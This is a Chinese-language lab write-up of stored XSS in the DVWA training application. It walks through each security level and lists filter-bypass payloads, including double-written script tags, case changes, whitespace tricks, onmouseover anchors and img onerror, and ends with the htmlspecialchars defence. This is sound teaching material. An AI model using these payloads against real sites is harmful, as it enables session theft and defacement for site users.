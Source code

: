 ```yaml
---
title: DVWA-XSS‘存储型’手记
date: 2018-10-10 16:43:26
tags: [DVWA,XSS]
categories: XSS
---
```


# DVWA-XSS‘存储型’手记

---

## LOW

### Source:

![001](/img/xss/dvwa/Stored/low_001.png)

### Analysis:	

先对用户名和消息去除了两边的空格。将消息在输入时转义下存储进数据库。但是二次读取后没有检查,这里Name和Message都可以注入。直接用`<script>alert(1)</script>`弹窗测试。

在前端有对name有长度限制,可以F12开发者模式定位到进行修改。修改maxlength="100"后可以对name进行xss注入了。

![002](/img/xss/dvwa/Stored/low_002.png)

![003](/img/xss/dvwa/Stored/low_003.png)

```
<a href=# onmouseover=alert('Name')>ClickHere</a>
<a href=# onmouseover=alert('Message')>ClickHere</a>
```

### Process:

![004](/img/xss/dvwa/Stored/low_004.png)

## MEDIUM

### Source:

![005](/img/xss/dvwa/Stored/medium_001.png)

### Analysis:	

```
利用trim函数清除$message和$name 两端空格。
$message用strip_tags函数从字符串中去除 HTML 和 PHP 标记。后再用htmlspecialchars进行转义。把$message的路堵死了。
将$name中的<script>替换为空。

对script替换成空。可以采用多种方法绕过。
1. 双写
	<sc<script>ript>alert('双写')</script>
2. 添加空格或换行
	添加空格
	<script >alert('添加空格')</script>
	
	添加换行
	<script 
	>alert('添加换行')</script>
 3. 替换大小写
 	<Script>alert('修改S')</script>
 	
 先在前端修改对name的输入框属性maxlength="100"，再进行xss注入。
 也可以像下面的payload一样不使用<script>
 payload：
 <a href=# onmouseover=alert('Name')>ClickHere</a>
```

### Process:

1. 双写

![006](/img/xss/dvwa/Stored/medium_002.png)

2. 添加空格

![007](/img/xss/dvwa/Stored/medium_003.png)

​       		添加换行

![008](/img/xss/dvwa/Stored/medium_004.png)

3. 替换大小写

   ![009](/img/xss/dvwa/Stored/medium_005.png)

4. 不使用`<script>`

![010](/img/xss/dvwa/Stored/medium_006.png)

## HIGH

### Source:

![011](/img/xss/dvwa/Stored/high_001.png)

### Analysis:	

```
过滤了<script,检查了大小写。
对于这种情况不使用script就行了。
1.事件触发执行javascript
	<a href=# onmouseover=alert('事件')>ClickHere</a>
2.Src属性
	<img src=x onerror=alert('Src属性');>
照例先进行前端绕过Name的长度限制。
```

### Process:

1.事件触发执行javascript

![012](/img/xss/dvwa/Stored/high_002.png)

2.Src属性

![013](/img/xss/dvwa/Stored/high_003.png)

## IMPOSSIBLE

### Source:

![014](/img/xss/dvwa/Stored/impossible_001.png)

### Analysis:	

```
htmlspecialchars 将特殊字符转换为 HTML 实体
& (& 符号)	&amp;
" (双引号)	&quot;，除非设置了 ENT_NOQUOTES
' (单引号)	&#039; 
< (小于)	&lt;
> (大于)	&gt;

Impossible等级的代码使用htmlspecialchars函数把预定义的字符转换为HTML实体，
防止浏览器将其作为HTML元素。从而防治了XSS利用和危害。
```





